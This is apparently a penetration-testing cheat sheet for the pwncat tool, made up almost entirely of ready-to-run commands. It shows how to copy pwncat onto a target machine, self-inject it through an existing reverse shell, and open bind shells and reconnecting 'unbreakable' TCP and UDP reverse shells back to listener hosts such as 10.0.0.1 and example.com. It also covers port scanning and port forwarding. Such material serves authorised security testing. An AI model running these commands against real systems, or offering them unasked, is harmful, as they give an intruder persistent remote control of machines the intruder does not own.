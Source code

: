 # pwncat

{% embed url="https://github.com/cytopia/pwncat" %}

```
pip install pwncat
```

## <mark style="color:red;">Deploy to target</mark>

```
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64 |  xclip -selection clipboard

# Paste it on the target machine
 xclip -selection clipboard -o | base64 -d > pwncat
chmod +x pwncat
```

## <mark style="color:red;">Inject to target</mark>

If you found a vulnerability on the target to start a very simple reverse shell, such as via bash, php, perl, python, nc or similar, you can instruct your local pwncat listener to use this connection to deploy itself on the target automatically and start an additional unbreakable reverse shell back to you.

```
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445
```

## <mark style="color:red;">Summon shells</mark>

```
# Bind shell (accepts new clients after disconnect)
pwncat -l -e '/bin/bash' 8080 -k

# Reverse shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1

# Reverse UDP shell (Ctrl+c proof: reconnects back to you)
pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
```

## <mark style="color:red;">Port scan</mark>

```
# [TCP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080
pwncat -z 10.0.0.1 1-65535
pwncat -z 10.0.0.1 1+1023

# [UDP] IPv4 + IPv6
pwncat -z 10.0.0.1 80,443,8080 -u
pwncat -z 10.0.0.1 1-65535 -u
pwncat -z 10.0.0.1 1+1023 -u

# Use only IPv6 or IPv4
pwncat -z 10.0.0.1 1-65535 -4
pwncat -z 10.0.0.1 1-65535 -6 -u

# Add version detection
pwncat -z 10.0.0.1 1-65535 --banner
```

## <mark style="color:red;">Port Forward</mark>

### <mark style="color:orange;">Local port forward -L (listening proxy)</mark>

```
# Make remote MySQL server (remote port 3306) available on current machine
# on every interface on port 5000
pwncat -L 0.0.0.0:5000 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u
```

### <mark style="color:orange;">Remote port forward -R (double client proxy)</mark>

```
# Connect to Remote MySQL server (remote port 3306) and then connect to another
# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic
pwncat -R 10.0.0.1:4444 everythingcli.org 3306

# Same, but convert traffic on your end to UDP
pwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u
```

## <mark style="color:red;">Interactive Shell</mark>

```
Unbreakable TCP reverse shell
pwncat --exec /bin/bash --nodns --reconn --reconn-wait 2 10.0.0.1 4444

Unbreakable UDP reverse shell
pwncat --exec /bin/bash --nodns --udp --ping-intvl 2 10.0.0.1 4444
```
